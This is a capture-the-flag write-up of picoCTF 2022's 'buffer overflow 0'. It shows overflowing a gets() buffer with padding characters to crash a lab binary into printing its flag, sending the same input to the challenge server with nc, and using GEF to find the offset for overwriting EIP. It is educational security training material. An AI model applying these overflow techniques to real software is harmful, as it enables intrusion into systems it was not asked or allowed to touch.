 # buffer overflow 0
## Description
- **Tags**:
    - picoCTF 2022
    - Binary Exploitation
    - gets
- **Author**:
    - Alex Fulton
    - Palash Oswal

Smash the stack

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/521/vuln). You can view source [here](https://artifacts.picoctf.net/c/521/vuln.c). And connect with it using:
```
nc saturn.picoctf.net 65355
```
## Exploration
Seems like a pretty basic buffer overflow challenge where we want to attempt to input more data than a buffer can handle. The code appears to be using the typical `gets()` call with no protection on how much input it will try to read in, even with a limited buffer.

While the challenge provides both the source code and a compiled program, might as well try to compile ourselves as well. To do so we'll need to get a feeling for what protections are enabled on the provided binary:

```
$ checksec vuln
[*] '/home/keithjh/src/CTF/pico/2022/Binary_Exploitation/buffer_overflow_0/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Here we can see that there's no Stack canary, but NX and PIE is enabled. This feels a bit concerning at first as that will make it difficult to have meaningful code execution after a buffer overflow. Regardless let's compile with similar flags to also generate a 32 bit binary. We should be able to use the provided binary and compiled binary interchangeably going forward.

```
$ gcc -m32 -fno-stack-protector vuln.c -o vuln.elf
$ checksec vuln.elf
[*] '/home/keithjh/src/CTF/pico/2022/Binary_Exploitation/buffer_overflow_0/vuln.elf'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Now that we have some understanding and can compile, let's just try an overflow and see what happens.

```
$ ./vuln.elf <<< AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Input: picoCTF{REDACTED}
```

Well, that was interesting. The flag was just printed out without really having to manipulate any of the contents of the payload. Looking at the code it seems there's a SIGSEGV handler that just prints out the flag. Clever way to introduce a buffer overflow attack.

This should also work against the remote endpoint, giving us the flag.
```
$ nc saturn.picoctf.net 65355
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{REDACTED}
```

### Bonus Points
That's all we really needed to get the flag for the challenge, but what else can we gather from this example? With NX and PIE there's likely no other easy interesting things to get to execute, however, let's at least identify where the offerflow occurs and where we could inject to EIP if we wanted to.

Using GEF for GDB we can generate a pattern that allows us to easily find where we start overwriting EIP. If we generate a "long enough" pattern and run the program with it, we can search where we start to write over EIP (the offset). Using this offset we know that many characters are necessary before we begin to write over EIP and influence the program execution.
```
$gdb vuln.elf

gef➤  pattern create 50
[+] Generating a pattern of 50 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

gef➤  r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

gef➤  pattern search $eip
[+] Searching for '$eip'
[+] Found at offset 28 (little-endian search) likely
[+] Found at offset 25 (big-endian search)
```
